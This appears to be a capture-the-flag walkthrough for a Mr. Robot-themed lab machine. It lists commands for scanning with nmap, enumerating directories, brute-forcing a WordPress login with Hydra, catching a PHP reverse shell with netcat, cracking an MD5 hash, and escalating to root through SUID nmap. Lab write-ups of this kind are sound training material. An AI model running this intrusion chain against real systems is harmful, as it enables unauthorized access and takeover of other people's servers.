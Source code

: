 
### Scan the network
```bash
$ nmap -sV -sC -oA scans/initial ip_address
```

### Examining the website
-  go to the /robots.txt route

### Gobuster
```bash
$ gobuster dir -u http://ip_address -w /usr/share/dirbuster/directory-list-2.3-small.txt -t 100 -q -o scans/gobuster-small.txt
```


### Hydra
```bash
$ hydra -L fsocity.dic -p test ip_address http-post-form "/wp-login.php:log=^USER^&pwd=PWD:^Invalid username" -t 30

$ hydra -l Elliot -P fsocity.dic ip_address http-post-form "/wp-login.php:log=^USER^&pwd=PWD:^The password you entered for the username" -t 30
```


### Netcat
```bash
$ rlwrap nc -lvnp 53
```
### PHP reverse shell
- search on google: php-reverse-shell
- copy the content of the php-reverse-shell.php
- click on archive on the wordpress page
- go to the /wp-content.php route
- you should have a reversed shell in your terminal

### Reverse shell, John the ripper and root escalation
```bash
$ ls
$ cat password.raw-md5 # copy the password and paste it in a file outside of the reverse shell
$ john md5.hash --wordlist=fsocity.dic --format=Raw-MD5

# in reverse-shell
$ python -c 'import pty;pty.spawn("/bin/bash")'
$ su robot
$ find / -perm +6000 2>/dev/null | grep '/bin/'
$ /usr/local/bin/namp --interactive

namp> !sh
namp> ls /root # that gives you the last key
```